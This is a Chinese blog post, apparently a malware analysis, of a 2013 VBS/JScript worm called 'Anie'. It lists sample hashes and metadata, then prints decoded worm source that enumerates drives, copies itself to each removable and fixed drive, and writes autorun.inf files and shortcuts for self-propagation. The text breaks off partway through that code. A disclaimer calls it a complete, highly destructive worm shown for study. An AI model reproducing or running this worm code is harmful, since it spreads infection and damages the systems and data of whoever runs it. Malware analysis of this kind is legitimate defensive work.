 title: VBS蠕虫 Anie 代码分析
date: 2015-03-14 16:49:47
categories: 病毒分析
tags: Worm
description:
---
Anie 是一个VBS蠕虫，命名源于其会创建一系列名为 Annie 的文件，鉴于计算机病毒命名时不应直接使用病毒样本中出现的字符串，所以将其命名为 Anie。
该病毒最早出现的时间为2013年，国家为印尼。

# 基本信息
***
>病毒名称：Worm.JS.AutoRun
>病毒类型：蠕虫
>样本长度：9,201 字节
>样本md5：4d1a9f7559de521e1458021a1a7df7cf
>文件类型：vbs
>原文件名：Annie.sys
>出现时间：2013-02-15
>感染范围：Indonesia
>感染目标：Intel 386 orlater processors and compatible processors



# 脚本解密
***
直接用编辑器打开病毒样本，会发现样本内容为乱码，该样本使用了jscript.encode方式进行了加密，在[这里](http://www.sanxiang.org/jscript-decode.html)可以对其进行解密。
![](http://7xicmh.com1.z0.glb.clouddn.com/blog/anie-vbs-worm-code-analysis/encoded.jpg)

# 代码分析
***
## 免责声明
本节代码是一个完整的VBS蠕虫病毒，仅以学习和交流目的展示，其执行后会感染磁盘驱动器、CD刻录机、网络驱动器等，会对系统造成极大破坏。
请勿复制、传播、执行以及使用本节中代码进行攻击等，否则自行承担一切因不当行为造成的后果及责任。

## 病毒代码

{% codeblock %}
var fso = new ActiveXObject('Scripting.FileSystemObject');
var Shell = new ActiveXObject('WScript.Shell');
var ScriptPath = WScript.ScriptFullName;
var Script = ReadText(ScriptPath);
var SystemPath = fso.GetSpecialFolder(1);
var SysPath = SystemPath + '\\drivers\\annie.sys';

function InfectDrives() {
    while (ScriptPath == SysPath) {
        // 枚举驱动器集合
        var e = new Enumerator(fso.Drives);
        for (e.moveFirst(); !e.atEnd(); e.moveNext()) {
            var drv = e.item();
            // DriveType:UnknownType＝0；Removable＝1；Fixed=2；Remote=3；CDRom=4.
            // 如果是硬盘或者移动存储介质并且驱动器号不为'A:'并且驱动器可以访问
            if (((drv.DriveType == 1 || drv.DriveType == 2) && drv.Path != 'A:') && drv.IsReady) {
                // 拷贝脚本文件到驱动器根目录，命名为annie.ani。
                CopyScriptFile(drv.Path + '\\annie.ani');
                // 创建AutoRun文件，将annie.ani设置为自动运行。
                CreateAutoRunFile(drv.Path + '\\autorun.inf');
                CreateShortcut(drv.Path + '\\');
